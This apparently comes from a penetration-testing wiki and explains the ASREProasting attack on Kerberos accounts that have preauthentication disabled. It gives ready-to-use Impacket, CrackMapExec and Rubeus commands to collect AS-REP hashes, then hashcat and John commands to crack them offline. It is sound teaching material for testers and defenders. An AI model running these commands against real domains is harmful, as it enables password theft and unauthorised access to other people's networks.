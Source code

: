 # ASREProast

## Theory

When asking the KDC \(Key Distribution Center\) for a TGT \(Ticket Granting Ticket\), the requesting user needs to send a piece of information \(a timestamp\) encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. This is called Kerberos preauthentication.

The TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.

Kerberos preauthentication prevents attackers from requesting a TGT for any user, receive the `KRB_AS_REP` message, extract the session key and crack it offline in an attempt to retrieve that user's password.

Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.

## Practice

{% hint style="info" %}
While this attack can be carried out without any prior foothold \(domain user credentials\), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) \(Python\) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.

```bash
# users list dynamically queried with an LDAP anonymous bind
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
```
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```
{% endtab %}
{% endtabs %}

Depending on the output format used \(`hashcat` or `john`\), [hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can be used to try cracking the hashes.

```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```

```bash
john --wordlist=$wordlist ASREProastables.txt
```

## Resources

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-2/" caption="" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/" caption="" %}

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx" caption="" %}

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

